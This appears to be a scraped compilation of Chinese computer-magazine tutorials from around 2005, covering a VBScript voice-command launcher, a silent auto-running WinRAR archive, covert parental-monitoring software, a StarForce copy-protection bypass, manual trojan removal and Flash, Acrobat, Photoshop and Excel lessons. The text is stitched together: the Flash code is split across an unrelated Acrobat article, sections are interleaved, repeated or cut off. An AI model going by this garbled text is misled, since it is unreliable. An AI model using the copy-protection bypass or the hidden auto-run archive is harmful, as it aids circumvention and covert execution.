Set Grammar = SR.CreateGrammar
Grammar.CmdLoadFromFile "COMMAND.XML", SLODynamic
Grammar.CmdSetRuleIdState 0, 1

MsgBox "你好，主人，请吩咐。"

'等候你的语音命令(需要安装麦克风)
'当识别出"命令结束"命令时程序结束
Do
    WScript.Sleep 1000
Loop Until ScriptComplete

MsgBox "欢迎再跟我说话，再见！"

'你的语音命令被识别
Sub RecoContext_Recognition(ByVal StreamNumber, ByVal StreamPosition, ByVal RecognitionType, ByVal Result)
    Text = Result.PhraseInfo.GetText '获取语音识别引擎所识别的命令
    If Text <> "命令结束" Then
        WshShell.Run CommandDictionary.Item(Text) '由WshShell对象Run方法执行你的命令
    Else
        ScriptComplete = true '程序结束标志
    End If
End Sub
```

自定义你的命令语法文件Command.XML内容如下，记得要跟CommandPC.VBS放在同一个目录中哦：

```
<?xml version="1.0" encoding="gb2312"?>
<GRAMMAR LANGID="804">
    <RULE NAME="命令" TOPLEVEL="ACTIVE">
        <L>
            <P>上网</P>
            <P>计算器</P>
            <P>记事本</P>
            <P>空当接龙</P>
            <P>命令结束</P>
        </L>
    </RULE>
</GRAMMAR>
```

好了，现在双击CommandPC.VBS并且试着对你的电脑说出“空当接龙”，她是不是自动帮你打开了这个游戏呢？你还可以根据自己的需求不断扩充命令，真是“我的地盘我做主”啊！
以上程序在Windows 2000及Windows XP中测试通过，你可以在 http://www.cfan.com.cn/11program/200513/commandpc.zip 下载到本文的源代码。你还可以参看 http://support.microsoft.com/default.aspx?scid=kb;zh-cn;306537 了解更多的微软中文语音识别引擎的知识。
（安徽 华英）

## 压缩文档大不同，能唱歌来会跳舞

WinRAR 是我们最常用的压缩软件，现在已经有越来越多的软件是用它的自解压功能制作安装文档，那么别人的自解压缩文件为什么可以做得那么漂亮？你为什么不能呢？不需要专门的知识及工具，只要几步就能打造出漂亮的多媒体自解压缩文件。

### 1. 准备文件

制作多媒体自解压缩文件就需多媒体文件，所以要准备好一个MID格式的音频文件，一个GIF、JPG等格式的图片文件。本例中我们使用名为1.MID的音频文件及名为1.GIF的动画文件。
除了音频及图片文件外，我们还需要准备一个HTML格式文件。打开“记事本”，输入下面的代码(见图1)，并保存为1.HTML：



图1 从 http://www.newhua.com/cfan/200513/rarcode.rar 可以下载到以下代码，请根据情况修改音频及图片的文件名

```
<html>
<head>
    <meta http-equiv="content-type" content="text/html;charset=gb2312">
    <title>我的多媒体自解压缩文件</title>
    <bgsound src="file:///c|/temp/1.mid" loop="infinite">
</head>
<body background="file:///c|/temp/1.gif" bgcolor="navy" text="white" link="lime" vlink="green" alink="aqua">
    <p><div id="layer1" style="position:absolute;left:10px;top:6px;width:240px;height:160px;z-index:1;border-width:1px;border-style:none;">
        <p style="line-height:100%;margin-top:0;margin-bottom:0;"></p>
    </div></p>
    <p style="line-height:100%;margin-top:0;margin-bottom:0;"></p>
    <p style="line-height:100%;margin-top:0;margin-bottom:0;"></p>
    <p style="line-height:100%;margin-top:0;margin-bottom:0;"></p>
    <p style="line-height:100%;margin-top:0;margin-bottom:0;"></p>
    <p style="line-height:100%;margin-top:0;margin-bottom:0;"></p>
    <p style="line-height:100%;margin-top:0;margin-bottom:0;"></p>
    <p style="line-height:100%;margin-top:0;margin-bottom:0;"></p>
    <p style="line-height:100%;margin-top:0;margin-bottom:0;"></p>
    <p style="line-height:100%;margin-top:0;margin-bottom:0;"></p>
</body>
</html>
```

将1.MID、1.GIF、1.HTML及待压缩的文件（本文以文件readme.doc为例）放在同一目录下，准备开始制作。

### 2. 制作内层压缩文件

制作多媒体自解压缩文件需要制作两层压缩文档，现在就先制作内层压缩文件。
第一步：右击readme.doc，选择“添加到压缩文件”，打开“压缩文件名和参数”窗口。
第二步：勾选“创建自解压缩文件”，确认“压缩文件名”为readme.exe，其他压缩设置可根据需要自行调整。
第三步：点击“高级”标签下的“自解压选项”按钮，打开“高级自解压选项”。
第四步：在“解压路径”中输入“C:\Readme”(不含引号)，同时确认“绝对路径”已经选中。
第五步：点击“文本和图标”标签，在“自解压文件窗口标题”中输入“能唱歌，会跳舞的压缩文件”，然后点击“从文件加载文本”按钮，选择1.HTML。
第六步：两次“确定”后，完成压缩。

### 3. 制作自解压缩多媒体外壳

现在，我们就开始制作多媒体压缩文件了。
第一步：选中1.GIF、1.MID、Readme.exe；右击，选择“添加到压缩文件”。
第二步：勾选“创建自解压格式压缩文件”，其他压缩设置可根据需要自行调整。
第三步：点击“高级”标签下的“自解压选项”按钮，打开“高级自解压选项”窗口。
第四步：在“解压路径”中输入“C:\temp”，同时确认“绝对路径”已经选中，在“解压后运行”中输入“C:\temp\readme.exe”(不含引号)。
第五步：点击“模式”标签，设置“安静模式”为“全部隐藏”，设置“覆盖方式”为“覆盖所有文件”。点击“确定”两次后，完成压缩包的制作。
现在双击刚刚制作完成的多媒体压缩文件，看看效果如何吧。

（飘）

# 网络看护还是“妈妈”好

每到暑假，家长会担心一个人在家的孩子“肆无忌惮”地玩游戏、上网。于是四处寻找监控软件成了每个家长的必要任务。但如今普遍是孩子的电脑水平比父母还高，想要找到一款不错的监控软件还真是不容易。为了解决所有家长的烦恼，这里就为大家介绍“网络妈妈”这款优秀的监控软件。

## 网络妈妈小档案

- 软件版本:4.68
- 软件大小:7780KB
- 软件性质:免费软件
- 适用平台:Windows 2000/XP
- 下载地址:http://www.newhua.com/cfan/200513/netmamasetup.exe

### 为什么选择“网络妈妈”

软件有很多特色，比如不会在开始菜单、桌面、系统托盘中留下任何痕迹，让孩子感觉不到“妈妈”的存在；使用特殊的“调用码”而不是热键调出控制平台；可以对一些目录进行加密等。

### 如何使用“网络妈妈”？

安装并运行软件，第一次使用时，会出现使用“调用码”打开软件控制界面的提示，勾选“我记住了”，并确认，再输入访问密码。之后，依次输入“99887766”，在弹出窗口中输入设置的密码，打开“网络妈妈”控制平台。

- **实例1：让孩子只能在每周六、日的上午10点到下午18点玩游戏，上网聊天**
  第一步:点击“主要设置”下的“网络设置”按钮，在窗口右侧点击“聊天限制”，这里显示了一些常用聊天工具，分别选中，点击“禁用”按钮即可。这里你还可以使用“添加”按钮，添加一些其他聊天工具的运行程序，比如MyIM的MyIM.exe等等。
  第二步:点击“本机设置”按钮，点击窗口右侧的“游戏限制”标签，同样选中所有的游戏，并点击“禁用”。
  第三步:点击“时间限制”标签，通过点击，将星期六、星期日10点至18点的时段按钮设置为蓝色，除此之外，全部设置为灰色(见图1)。同时勾选“聊天、游戏”项即可。

  

  图1 将光标移至时段按钮上，就会显示出具体的时段

  现在所有的设置已经完成，只有到指定时段才能上网及玩游戏。

- **实例2：指定的工作文件（文件夹）不能动**
  第一步:同样是在控制平台的“主要设置”下，点击“本机设置”按钮，在窗口右侧的“禁用文件”下点击“添加”按钮，选择需要禁用的工作文件，这样该文件将无法被打开或运行。
  第二步:点击“隐藏目录”标签，点击“添加”按钮，选择工作文档所在的文件夹，这样该目录就会隐藏，不会被孩子在操作电脑时误删。

- **实例3：轻松监控孩子用电脑的情况**
  第一步：在控制平台左侧点击“本机设置”，在窗口右侧的“日志设置”下勾选“启动屏幕监视功能”，再设置好“抓屏时间间隔”等参数(见图2)。
  第二步：在控制平台左侧点击“日志浏览”，点击“屏幕日志”就可以看到屏幕抓图了。点击“网址日志”，可以看到访问过的所有网址。

  

  图2

### 小提示

- ★除了上面提到的各种功能外，“网络妈妈”还具有“网址黑名单”、“关键词过滤”等功能。
- ★由于没有菜单项，所以需要卸载软件时，要使用控制平台的“卸载软件”功能，将软件卸载，并重启。

（飘流）

# 卡卡 Windows 的安全小帮手

近日，瑞星公司推出了一款名为卡卡安全助手的系统安全辅助工具。该软件安装文件仅几百KB，可登录http://tool.ikaka.com网站下载并安装，完成后它就会出现在IE浏览器上方(见图1)。下面就让我们来领略一下它的几个既专业又颇具特色的安全功能。


图1

## 1. 病毒疫情实时监测

“病毒疫情实时监测”是卡卡安全助手的独有功能，能实时显示当前互联网连接的安全级别。单击工具栏左侧的“安全助手”按钮，在弹出的菜单中选择“设置…”，在弹出的“工具栏选项”对话框中勾选“病毒疫情实时监测”，并点击“确定”。当前的“病毒疫情等级图”将显示在卡卡安全助手工具栏上(见图2)。


图2

病毒疫情等级用四种颜色表示，分别为：绿色、黄色、橙色和红色，“q”指向的颜色为当前网络的安全等级。四种颜色中绿色级别最低，红色为最高。

## 2. 系统清理

卡卡安全助手的“系统清理”具有痕迹清理和垃圾清理的功能，能快速清理使用痕迹和IE地址栏等上网记录信息，有效保护隐私，并可以删除无用垃圾文件提高系统运行速度。而且它还能根据需要进行默认清理、全面清理或自定义清理。

## 3. IE加载项管理

IE加载项的流行使IE具备了更多功能，虽然能使浏览更加有趣或高效，但同时也有一些非法的加载项对用户系统安全存在威胁。卡卡安全助手的“管理加载项”工具可以检测到用户电脑中已安装的所有IE加载项程序，并显示其名称、类别、状态、发行者和文件的路径，你可以根据需要禁用、启用或永久地清理掉这些加载项。

除此之外，卡卡安全助手还具有信息搜索、病毒资料搜索、智能广告拦截、系统修复、免费在线查毒等诸多功能。

（瑞星工程师 史瑀）

# 体验智能ABC的特殊符号输入

本刊《特殊符号！我要轻松输入你》一文介绍了多种输入法输入特殊符号的方法，而智能ABC输入法的用户也很多，因此我再为大家介绍一些关于它的实用输入技巧，让你大大提高输入速度。

## 1. 直接输入英文

如果在智能输入法中输入英文，只要在输入的英文字母前先输入“v”即可，如输入“teacher”，只需键入“vteacher”即可。

## 2. 输入大写数字

要在智能ABC中输入大写的数字，如“一”、“二”、“三”或“壹”、“贰”、“叁”，需要使用的快捷键就是“i”和“I”键。比如要输入“三”，只要键入“i3”，要输入“贰”，只要键入“i2”（按住“Shift+i”，即可输入“I”）即可。

## 3. 输入中文日期

在智能ABC中快速输入年月日的方法与其他输入法相似，使用“n”、“y”、“r”来分割“年”、“月”、“日”，只是要输入前，还要加上“i”，如要输入“二○○四年五月八日”，只需键入“i2004n5y8r”即可。

## 4. 快速输入单位

智能ABC还提供了单位的快速输入，所用热键同样是“i”，采用“i+单位缩写”，比如要输入“厘米”，则只要键入“icm”即可。输入“万”、“千”、“百”、“十”等的方法是在其声母前加“i”，如输入“千”，只需键入“iq”就可以。

## 5. 其他字符的快速输入

利用“v”键+数字键，再结合“上翻”、“下翻”可以出现一些特殊的符号。如键入“v1”就能出现104个特殊符号，你还可以试着体会“v2”到“v9”会有更多意外符号。

（湖北 韩山）

# 破解 StarForce3 不拔光驱也能玩加密游戏

StarForce 3是目前很多游戏所用的加密方。出于保护光盘和光驱，不少朋友会把游戏光盘做成镜像文件，通过虚拟光驱软件来运行，但对于用StarForce 3加密的游戏盘，除了需要游戏镜像文件外，还得将电脑里的光驱屏蔽或拔除，非常麻烦。而免费的StarFuck就能解决此问题了，不用再去麻烦地拔光驱了。

(注意:本文仅用于技术研究，请勿用于非法用途。)

在使用StarFuck之前，你需要先将游戏光盘做好镜像文件，然后安装好Daemon Tools (下载地址:http://nj.onlinedown.net/soft/3617.htm) 或Alcohol 120% (下载地址:http://nj.onlinedown.net/soft/3597.htm)虚拟光驱软件。

第一步:从http://www.newhua.com/cfan/200513/starfuckv0.83.rar下载StarFuck 0.83汉化版。解压缩软件，运行StarFuck.exe，打开软件主界面。

第二步:点击“程序设置”项，打开“程序设置”窗口，在“光驱位置”下拉菜单中选择“选择全部光驱”，“程序目录Daemon Tools”下设置好Daemon Tools所在位置，在“程序目录Alcohol 120%”下设置好Alcohol 120%所在位置，点击“存储设置”即可。

第三步:回到软件主界面，在“保护类型”中选择“StarForce 3.4.63.2”，点击“屏蔽光驱”按钮。

第四步:打开“我的电脑”，所有物理光驱都消失了，只有虚拟光驱。将游戏镜像文件加载到虚拟光驱中，这样不必拔掉光驱就可以玩用StarForce加密的游戏了。

第五步:玩完游戏后，再次打开StarFuck，点击“启用光驱”，重启电脑后，原来的光驱就会显示出来了。

# 一波三折杀木马

前几天，同学在QQ上收到一个人传来的文件，十分欣喜地打开，结果什么都没有，然后就发现自己也在不停地给人传文件，于是找我帮忙清除。其查杀过程一波三折，现成此文，以供参考。

### 1. 轻松搞定伪装品

先删除了他接收到的文件，然后用进程查看软件TroyanFindInfo(下载地址:http://nj.onlinedown.net/soft/36670.htm)查看一下系统中所有进程。很快发现了一个很奇怪的进程(见图)，虽然名称是RUNDLL32.EXE，但其他的诸如版本、产品名、说明都和微软的RUNDLL32.EXE不同。



> 小提示
> ★系统自带程序都有各自特定位置和图标，比如开始要删除的“RUNDLL32.EXE”，如果是系统自带程序，那在Windows 2000/XP中保存在系统目录里的System32文件夹里。
> ★类似子“xi.exe”和“notepad xii.exe”这类的木马文件的命名抓住了人们心理上的弱点，对相似的东西会忽略掉。如果隐藏了扩展名，本例中的这两个文件粗粗看一眼就很容易忽略掉。还有一种就是用比较类似的字母或者数字来代替，达到混淆的目的，比如“I”(大写I)、“l”(小写L)、“1”(数字1)或者是“O”(字母O)、“0”(数字0)就很容易拿来混淆。

### 2. 清除病毒的“幕后黑手”

本来以为是一个Easy Case，可刚回到家，同学就打来电话说好像木马没清除干净。过去一看，果然又出现了原来的状况。按照刚才介绍的方法先行处理过后，再回想一下整个操作，推断出可能木马把自己的分身隐藏到了系统的某个角落。

于是打开“我的电脑”，在菜单栏上点击“工具→文件夹选项”，在弹出的“查看”选项卡里将“隐藏受保护的操作系统文件(推荐)”和“隐藏已知文件类型的扩展名”两项的勾选去除，再选中“隐藏文件和文件夹”里的“显示所有文件和文件夹”。进入系统目录里，仔细看了一下WINNT、System、System32的目录，果然不出所料，发现了“xi.exe”和“notepad xii.exe”两个特殊的文件，根据刚才查杀System目录下RUNDLL32.EXE的经验，这些文件既不是系统自带的程序，文件的属性又和刚才删除的RUNDLL32.EXE属性类似，可以推断出这些文件就是木马文件，自然将其删除。最后，再去注册表，检查一下所有的启动项目。

> 小提示
> ★在检查注册表时一定要眼尖，看清楚键值是不是给做了手脚，是不是多加了一个空格，或使用了混淆字母。
> ★当发现查杀完木马后系统出现异常，很有可能是其留下了诸多的后遗症，具体处理方法详见本刊2005年第1期的《中毒后遗症，妙手来清除》。
> ★推荐在手动清理完木马后再用杀毒软件对系统进行彻底的查杀。

检查过程中，发现[HKEY_CLASSES_ROOT\exefile\shell\open\command]下的“默认”键值被修改成了“notepad xii %1 %*”，这就是导致所有EXE文件都关联成用记事本打开的原因，将其改回“%1” %*。再到[HKEY_LOCAL_MACHINE\Software\Classes\exefile\shell\open\command]将“默认”键值改回“%1” %*。再以“xi”和“notepad xii”为关键词进行搜索，结果又发现注册表的一处键值，即[HKEY_LOCAL_MACHINE\Software\Classes\txtfile\shell\open\command]也被修改成了“notepad xii %1”，修改回默认的“NOTEPAD.EXE %1”即可。

最后，为了保险起见，再用安装的杀毒软件对系统进行了全面的查毒，发现QQ目录中的“TIMPlatform.exe”也是木马，去QQ的目录里一看，发现还有一个文件“TIMPlatform.exe”，经过查看属性，查毒，确认它是被木马改名的原“TIMPlatform.exe”文件，改回后，一切正常。

> 小提示
> ★在检查注册表时一定要眼尖，看清楚键值是不是给做了手脚，是不是多加了一个空格，或使用了混淆字母。
> ★当发现查杀完木马后系统出现异常，很有可能是其留下了诸多的后遗症，具体处理方法详见本刊2005年第1期的《中毒后遗症，妙手来清除》。
> ★推荐在手动清理完木马后再用杀毒软件对系统进行彻底的查杀。

小编有话说:无独有偶，小编最近也手动清除了几次病毒，使用的工具是RegFix(下载地址:http://nj.onlinedown.net/soft/25562.htm)及IceSword(http://www.newhua.com/cfan/200508/icesword.rar)，前者可用于修复注册表，后者则是非常不错的手工杀毒必备软件。其实只要用得顺手，使用任何工具都可以解决问题，整个流程就像本文介绍的那样。

# Flash 编程不难 轻松让节日烟花放起来

本文将带领大家一起，通过Flash中的ActionScript脚本编程，实现节日烟花动画。开始时将出现烟花绽开的三维动画，随后烟花逐渐下落并消失，非常漂亮。本文涉及到的FLA源文件，可从http://www.newhua.com/cfan/200513/firework.rar处下载。

## 实例: Flash 节日烟花

第一步:启动Flash MX 2004中文版(以下简称Flash)并新建一个Flash空白文档。在下面属性面板上，单击“背景”右侧的颜色按钮，将背景色设置为黑色。



第二步:按Ctrl + F8键打开创建新元件对话框，将元件命名为“grastar”，“行为”选择“图形”，确定后进入元件编辑窗口。将笔触与填充色都设置为白色，然后用椭圆形工具画两个交叉的细长椭圆形，再用铅笔工具稍加修饰，即可得到如图1所示的星星图形。

```
stop();
_root.gotoAndPlay(1); // 跳转到主时间轴上并播放第1帧
```你了解的Acrobat有多少？让我们重新体验！

## 芝麻开门

什么是PDF？Acrobat [ˈækrəbæt]是专门用于阅读、编辑PDF文档的软件，那么什么是PDF呢？PDF实际上是英文Portable Document Format的缩写，意为便携式文档格式，由美国Adobe公司发明，发展至今已将近十年了。

PDF的核心原理是将PostScript语言图形化，而PostScript则是通用的打印机驱动语言，所以说，凡是能打印出来的，几乎都能够转成PDF文档。PDF文档可跨越不同的系统，在PC、苹果、Unix平台上都能打开阅读，并且版式色彩都能保持不变，它还可以内嵌必要的字体，这样就不用担心其他电脑上的字体不全了。另外，PDF具有完善的数字认证及加密方式，使得它非常安全，能很好地保护商业秘密、著作版权等。

Adobe公司免费发行的PDF阅读器软件Adobe Reader（官方下载 http://www.chinese-s.adobe.com/products/acrobat/readerstep2.html）几乎已成为电脑里的标配软件，很容易得到。而如果你还想要编辑PDF文件，使它发挥更大的作用，则最好安装收费版本Adobe Acrobat（最新版本为7.01），它也是本文的主角。

## 实例1: Word转PDF，只需一步

创建PDF文档很简单，只要单击一个按钮。

| 职业 | 用途 | 需要掌握的程度 |
|------|------|----------------|
| 政府及商务专业人士 | 共享文档，审阅报告等 | 掌握一般性的操作，了解批注、安全、表单、审批等工具的使用。 |
| 工程技术人士 | 制作、交流技术文档等 | 编辑修改文档的各种操作，绘图工具的使用，团队协作所需要的信息安全、信息共享等相关工具的使用。 |
| 出版及设计人士 | 制作印刷品、电子书等 | 熟练的文档编辑操作，深入理解打印输出技术、多人协作技术等。 |

| 软件名称 | 网页地址 | 功能简介 |
|----------|----------|----------|
| CreatePDF | http://createpdf.adobe.com | 无需安装任何软件，在线即可完成PDF转换操作 |
| OpenOffice | http://www.openoffice.org | 与微软Office类似的办公软件，可直接导出PDF |
| Pdf995 | http://www.pdf995.com | 安装后会增加一个名为PDF995的虚拟打印机，选择它即可转换为PDF |
| CorelDraw | http://www.corel.com | 著名的设计软件，功能强大，可直接导出PDF，不过它也是一款价格不菲的软件 |







```
7. angle_num = Math.pow(2,i+2);
8. // 设置影片片段分身的半径;
9. r = 40 + i*15;
10. // 设置影片片段分身的层次;
11. d0 = Math.pow(2,i)-1;
12. d = 4*d0;
13. for (var j=0; j < angle_num; j++){
14. if (i == 0){
15. d = 0;
16. }
17. depth = d + j + 1;
18. // 复制影片片段分身
19. duplicateMovieClip("itnstar","itnstar" add i add j, depth);
20. // 设置各个影片片段分身的角度
21. angle = j*Math.PI/180*360/angle_num;
22. // 设置影片片段分身属性;
23. setProperty("itnstar" add i add j, _x, baseX + Math.cos(angle)*r);
24. setProperty("itnstar" add i add j, _y, baseY + Math.sin(angle)*r);
25. setProperty("itnstar" add i add j, _alpha, 100-num);
26. setProperty("itnstar" add i add j, _xscale, 100-num);
27. setProperty("itnstar" add i add j, _yscale, 100-num);
28. }
29. }
```

## 小知识

条条大路通PDF。其实，不一定非得用Office软件才能编辑PDF文档，理论上来说，凡是带打印功能的软件都可以生成PDF文件，这无疑大大扩展了我们选择的范围，像EmEditor、写字板、Photoshop、PageMaker等，都可以用作PDF编辑器。编辑好文档后，执行“文件→打印”命令调出打印对话框，安装Acrobat 7.0之后系统中自动会添加一个名为“Adobe PDF”的虚拟打印机，选择它进行打印，在随后显示的保存对话框中保存文件即可。

## 实例2: 已阅！电子批注就这么简单

我们看书的时候，总喜欢在书边随时记下感想。在PDF电子文档中，也可以让我们的思想自由驰骋。比如在上例中，当老板收到王芳发来的邮件后，他可以在Acrobat中打开附件里的PDF报告进行审阅，并通过注释工具给文档加上图章、批注等内容。

## 程序分析：知其然更知其所以然

上面代码的本质是通过将一个实例复制成多个，并按一定规律分布显示出来，达到烟花绽开的效果。以“//”开头的代码行是程序注释，可有可无，主要作用是对程序代码作一些简单说明，运行时Flash会自动忽略掉它。上面代码中，第2、3行是设置星星影片片段分身的X、Y基点坐标，也就是最后形成的满天星动画的中心点坐标，random(value)函数得到一个介于0~value-1之间的随机值。我们知道在三维立体中，远处的物体比近处的物体要暗要小，因此第5行的num是为后面影片片段分身的透明度及缩放设的值，以使整个图像看起来有三维立体的效果。影片片段分身的属性值在25、26、27行设置。第7行中Math.pow(x,y)函数返回值是x的y次方。

下面主要说明第19行的函数duplicateMovieClip(target,newname,depth)，它是用来复制影片片段分身对象的，其中：
target:被用来复制的源影片片段的分身（本例中为mvcstar对象的实例itnstar）
newname:分身对象（即复制出来的新影片片段）的名称。本例中因为要复制出多个对象，为了不使对象的名称重复，这个参数用“itnstar” add i add j”这种形式来表示的，add表示在字符itnstar后面再加上数字变量i和j，通过for循环，变量i和j的值将自动向上递增，这样，后面的对象名称将自动变为itnstar01、itnstar02、itnstar11、itnstar12……
depth:这是一个堆叠参数。指定新完成的对象与其他对象重叠时的显示层次，depth越大时，所显示的分身对象越在上。若有两个显示层次相同的影片片段，则先复制的影片片段会被后建立的取代。

有关影片片段分身所在角度及层次值需要一定的数学运算技巧，这里的设计思想是:用变量i控制影片片段显示几圈，变量j用来控制每圈中的影片片段的个数。在第一圈(i=0)有四个影片片段分身，每一分身相隔360/4=90度，其所在层次为1~4；第二圈(i=1)有八个影片片段分身，每一分身相隔360/8=45度，其所在的层次为5~12，依此类推。

## Just Do It!

本例中的烟花是呈圆形发散的,这取决于数学公式Math.cos(angle)*r和Math.sin(angle)*r所确定的X、Y值。你可以设计出其他数学公式以获得不同的烟花形状。另外,为使动画更具有逼真的效果,还可以加入烟花升空时的声音特效。

## 实例教学 品味 Photoshop CS2 新工具

Photoshop CS2 中又增加了十多項令人心动的工具，其中对普通读者来说，最为实用的当属“消点工具”(也称灭点工具)和“镜头校正工具”了。下面就让我们看看，如何用这两个工具把一个小矮楼变成摩天大厦，以及如何把变形的高楼图片矫正成正常状态。

## 实例1：打造自己的摩天大厦

如图1所示，是本例原图和效果图比较，一座普通的建筑物被天衣无缝般地加高了许多。这种效果，在旧版Photoshop中因为要考虑透视问题，需要很多步骤和技巧才能实现，而在CS2版本却能轻松实现。

- 第一步：启动 Photoshop CS2，打开一幅建筑物图片。
- 第二步：执行菜单命令 “Filter(滤镜)→Vanishing Point(消失点)” 打开消失点滤镜窗口。
- 第三步：点选左侧工具箱上的网格工具(即第二个图标)，然后在建筑物的边缘上单击鼠标左键定下一个起点，这时移动鼠标会拖动出一条直线来，连续点击几次鼠标即可画出一个蓝色的透视方框。透视方框必须符合建筑物的透视角度，如果设置不合适的话，透视方框的颜色会显示为黄色或红色，说明透视效果不对。这时可在左侧工具箱中点选黑箭头选择工具(即第一个图标)，用它拖动方框四周的节点以调整方框，直到方框线变成蓝色为止(见图2)。
- 第四步：点选工具箱上的选区工具(即第三个图标)，先用鼠标在蓝色选框的左上方确定取样起始点，然后按住鼠标左键向右下方拉出一个选区，作为取样终止点。选区的确定十分关键，要能够涵盖楼顶和下面比较典型的楼体部分，后面的复制才会不留痕迹。
- 第五步：按下Alt键不放，光标会变成双箭头状，此时就可以用鼠标点住选区部分向上移动了(也可以使用键盘上的方向键)。在移动复制的过程中会发现它能依照前面建立的透视方框向上自动缩小比例，这就是CS2灭点工具的神奇所在。
- 小提示：按住Alt键的同时也按住Shift键，可以使用移动复制的位置更准确，操作也更方便。
- 第六步：如果对以上方法做出的效果不满意的话，还可以使用工具箱中的图章工具(即第四个图标)，先按Alt键并在透视方框内单击鼠标定下取样点，然后在透视方框内复制即可。如此这般，几分钟内就可以将普通建筑物变成了摩天大厦了。
- Just Do It!：这款滤镜工具还有一个妙用，就是可去除照片中多余的背景对象来达到突出主题的目的，方法与前面说的基本一致，感兴趣的朋友可使用Photoshop CS2安装目录下Samples子目录里的Vanishing Point.psd文件来尝试一下。





## 实例3：快马加鞭，十道审批手续半小时搞定

上面的方法适用于平时的工作报告，但是遇到紧急的事情需要马上得到各层领导的逐层审批，再用上面的方法就显得慢半拍了。这时，可使用Acrobat特有的审批功能以加快工作效率。

## 实例4：巧用已有资源，网站瞬间变PDF电子书

老板要求王芳制作一套电子书，主要介绍公司的产品、业务、业绩等，分发给所有客户或潜在客户，达到宣传公司的目的。公司的网站就是很好的宣传材料，直接将网站转换成PDF文档，岂不省事。

## 实例5：轻松E刻做相册

每年的假日，王芳都会去各地旅游，拍回了不少数码照片，乘着工作之余，用Acrobat把它们制作成多媒体相册，与亲朋好友一起欣赏。

## 实例6：时光倒流，把PDF转成其他格式文档

网上有许多关于将PDF转换成其他格式文档的讨论，也介绍了不少第三方软件，其实在Acrobat 7.0中，只需一个“另存为”命令，即可全部搞定。

## 八戒要来是赔是赚，Excel里一目了然

故事:话说唐僧师徒四人取经归来，集体辞职下海办起了“环球旅游有限公司”，依靠他们丰富的旅行经历，公司办得红红火火。八戒在公司任经理一职，几年下来攒了不少钱，便跟高老庄的三小姐高翠花开始谈婚论嫁。办酒席、雇乐队、摄影摄像、亲朋好友的份子钱……繁杂的婚礼预算，八戒嘟嘟囔囔怎么也算不清，高三小姐不耐烦道：“笨，你用Excel不就一下搞定了。”（完整的婚礼预算Excel模板，可从http://www.newhua.com/cfan/200513/WeddingBudget.rar处下载）

## 实战:婚礼预算

各位看官注意了:本篇是“西游后记之Excel函数”系列开篇第一回，对Excel的一些基础性操作都有详细讲解，希望初学者能认真学习。在以后篇章中将专注于函数功能本身，对基础操作不再作详细讲解。有一定基础的读者，可跳过本文第一步直接从第二步开始看起。

## 第一步:创建和美化工作表

如图1所示，首先建立起预算项目工作表，此工作表分成三个区:标题区、计算结果区、婚礼支出/收入分类项目区。

- 1. 启动Excel2003，单击工具栏上的“新建”按钮(即左侧第一个图标)新建一个空白的Excel文档。拖动鼠标选中A1~C1三个单元格，然后执行“格式→单元格”命令(或右击选中的单元格，从右键菜单中选择“设置单元格格式”)调出单元格格式对话框。点选“对齐”选项卡，单击选中“合并单元格”项；再点选“图案”选项卡，在色彩盘中点选一颜色作为单元格的底色。单击“确定”退出，所选的三个单元格就合并成一个了，并且填充上你所选择的底色。



- 2. 单击选中刚刚合并的单元格，然后直接输入标题:“婚礼预算”。在输入状态下是不能设置字体格式的，可在其他单元格上点一下鼠标取消输入状态，再单击选中输入标题的单元格，然后像在Word中一样，通过工具栏上的格式按钮设置字体的大小、颜色、段落格式等。如图2所示，可拖动行号或列号分隔线以调整行高与列宽。



- 3. 为了美观，需要为某些区域加上边框线。选中需要加边框的区域，右击它，选择“设置单元格格式”，在打开的对话框中点选“边框”选项卡。如图3所示，首先单击“颜色”下拉按钮选择边框的颜色，然后再在“样式”中选择一种线型(实线或虚线等)，最后再在“预置”中单击“外边框”和“内部”即可为所选区域加上表格线了。你也可以根据需要，在“边框”中只选择部分加边框，比如只选择下边框，可达到分隔线的效果。对话框中间可以预览设置的效果。



- 4. 大家可能已发现，在“现有总存款”下面的单元格中，已经预先输入了一个数字(12万元)，数字前面带有一个人民币符号“¥”，它是通过以下方法实现的:右击这个单元格，选择“设置单元格格式”命令，在弹出的对话框中选择“数字”选项卡，然后在左侧选择“货币”，在右侧再把货币符号设置为人民币(还有美元等其他符号供选择)确定即可。以后，在这个单元格中输入数字时，它会自动加上人民币符号。本例中多个单元格中需要输入钱款信息，可将它们也设置成货币格式。
- 5. 执行“工具→选项”命令打开选项对话框，点选“视图”选项卡，取消对“网格线”项的选择，确定后，工作表中的网格线没有了，只有加了边框和底色的区域显示出来，工作表看起来是不是专业多了!最终效果如本文开始的图1所示。

## 第二步:使用数学公式快速统计

> 小知识
Excel公式和函数的区别
听起来，Excel公式好像非常神秘，其实我们在上小学时就接触过它们了，说白了，它就是用加减乘除等运算符号把各种数字连接起来的算式而已，它比小学算式高明的地方，在于能包含变量的东西，并且具有智能判断能力。比如小学，我们都知道12+6=18，在Excel公式里，则可以在单元格C1里输入公式“=A1+B1”，这样当在单元格A1里输入12，B1里输入6，则C1里自动显示出18来。与普通算式不同，我们可以在A1、B1里输入不同的数字，C1里也会显示出不同结果。
Excel中的函数，其本质就是系统预先定义好的公式，但它仅通过函数名称即可调用，非常简便。例如，假设要计算10个单元格(A1:A10)值的平均值，可以用这样的公式来计算:“=(A1+A2+A3+A4+A5+A6+A7+A8+A9+A10)/10”(不含引号，下同)，但如果采用函数，只需要输入“=AVERAGE(A1:A10)”就可以了。Excel中所有函数都有一个名称，而且不管有没有参数，都必须带有一对圆括号，表示它是一个函数。另外，大多数函数都需要有参数，才能进行计算。AVERAGE()就是求平均数函数的名称，括号内的“A1:A10”即是参数。

- 1. 本例中，每一类项目的费用都有一个小计项，即计算该类项目的总费用，可通过数学函数来实现，无需手工计算。下面以“服饰”类为例，单击选中“支出小计”右侧的单元格(本例中为B12)，输入“=SUM(B9:B11)”，按回车键结束(不含引号，下同)。注意:所有公式，都必须以“=”号开始，这样Excel才能识别出来。
- 2. 如图4所示，分别在对应戒指、礼服、首饰三项的单元格中(本例为B9、B10、B11)输入相应的费用，现在看一看，小计项(即B12)中是不是自动显示出该类费用的总和来。



> SUM()小档案
语法:SUM(参数1,参数2,参数3...)
说明:无条件求和函数，将列表中的所有参数相加。本函数至少要有一个参数，也可以有多个参数，但最多只能有30个参数。

## 实例2: 拯救画面畸变的照片

在拍摄照片时，因经验不足或场地限制往往会出现画面畸变(即枕形或桶形失真)的情况，而使用Photoshop CS2新增的Lens Correction(镜头校正)工具则可以轻松地修复它。

